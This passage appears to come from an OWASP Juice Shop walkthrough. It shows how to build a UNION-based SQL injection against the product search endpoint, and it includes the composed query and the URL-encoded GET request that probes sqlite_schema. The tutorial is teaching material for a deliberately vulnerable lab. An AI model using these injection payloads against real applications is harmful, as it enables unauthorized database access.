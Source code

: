 ![By default, it returns all of the items](../assets/juice-shop/injection/image-20231010225613568.png)

Let's try and inject our first query:

```sql
SELECT * FROM Products WHERE ((name LIKE '%')) UNION SELECT 1 FROM sqlite_schema -- attempt 1
```

To inject it, we're going to need to to change the request to query with `')) UNION SELECT 1 FROM sqlite_schema --`. Also, remember that url parameters are separated by `+`, giving us:

```http
GET /rest/products/search?q='))+UNION+SELECT+1+FROM+sqlite_schema+--
```
